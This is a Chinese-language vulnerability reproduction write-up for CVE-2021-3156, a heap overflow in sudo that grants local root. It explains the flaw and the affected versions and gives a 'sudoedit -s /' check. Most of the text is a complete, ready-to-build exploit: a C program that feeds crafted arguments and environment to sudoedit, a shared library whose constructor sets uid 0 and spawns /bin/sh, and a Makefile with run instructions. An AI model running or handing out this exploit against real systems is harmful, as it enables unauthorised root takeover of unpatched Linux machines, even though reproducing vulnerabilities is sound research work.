


# [](#cve-2021-3156-sudo-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2021-3156 sudo 提权漏洞复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

一个类 Unix 操作系统在命令参数中转义反斜杠时存在基于堆的缓冲区溢出漏洞。

当 sudo 通过 -s 或 -i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。只要存在 sudoers 文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。

### [](#12-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.2 影响版本

-   Sudo 1.8.2 - 1.8.31p2
-   Sudo 1.9.0 - 1.9.5p1

## [](#2-%E5%A4%8D%E7%8E%B0)2 复现

### [](#21-%E5%BF%AB%E9%80%9F%E5%88%A4%E6%96%AD%E6%BC%8F%E6%B4%9E%E6%96%B9%E6%B3%95)2.1 快速判断漏洞方法

以非 root 用户登录系统，并使用命令 `sudoedit -s /`

-   如果响应一个以 `sudoedit:` 开头的报错，那么表明存在漏洞。
-   如果响应一个以 `usage:` 开头的报错，那么表明补丁已经生效。


### [](#22-%E7%BC%96%E8%AF%91%E8%BF%90%E8%A1%8C)2.2 编译运行

一共三个文件：

1.  hax.c

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>``` | ```c<br>// Tested on:<br>// Ubunutu 20.0.4.1 LTS<br>// Sudo version 1.8.31<br>// Sudoers policy plugin version 1.8.31<br>// Sudoers file grammar version 46<br>// Sudoers I/O plugin version 1.8.31<br><br><br>#include <stdio.h><br>#include <string.h><br>#include <stdlib.h><br>#include <stdint.h><br>#include <unistd.h><br>#include <ctype.h><br><br>#define SUDOEDIT_PATH "/usr/bin/sudoedit"<br><br>int main(int argc, char *argv[]) {<br>	// CTF quality exploit below.<br>	char *s_argv[]={<br>		"sudoedit",<br>		"-u", "root", "-s",<br>		"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\",<br>		"\\",<br>		"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB123456\\",<br>		NULL<br>	};<br><br>	char *s_envp[]={<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\",  <br>		"X/P0P_SH3LLZ_", "\\",<br>		"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_ALL=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_CTYPE=C.UTF-8@AAAAAAAAAAAAAA",<br>		NULL<br>	};<br><br>	printf("**** CVE-2021-3156 PoC\n");<br><br>	execve(SUDOEDIT_PATH, s_argv, s_envp);<br><br>	return 0;<br>}<br>``` |

2.  lib.c

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```c<br>#include <unistd.h><br>#include <stdio.h><br>#include <stdlib.h><br>#include <string.h><br> <br>static void __attribute__ ((constructor)) _init(void);<br> <br>static void _init(void) {<br>	printf("[+] bl1ng bl1ng! We got it!\n");<br>	setuid(0); seteuid(0); setgid(0); setegid(0);<br>	static char *a_argv[] = { "sh", NULL };<br>	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };<br>	execv("/bin/sh", a_argv);<br>}<br>``` |

3.  Makefile：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```makefile<br>all:<br>	rm -rf libnss_X<br>	mkdir libnss_X<br>	gcc -o sudo-hax-me-a-sandwich hax.c<br>	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c<br>clean:<br>	rm -rf libnss_X sudo-hax-me-a-sandwich<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>tar -zxvf CVE-2021-3156.tar.gz<br>cd CVE-2021-3156<br>make<br>``` |



直接执行：`./sudo-hax-me-a-sandwich` 即可。


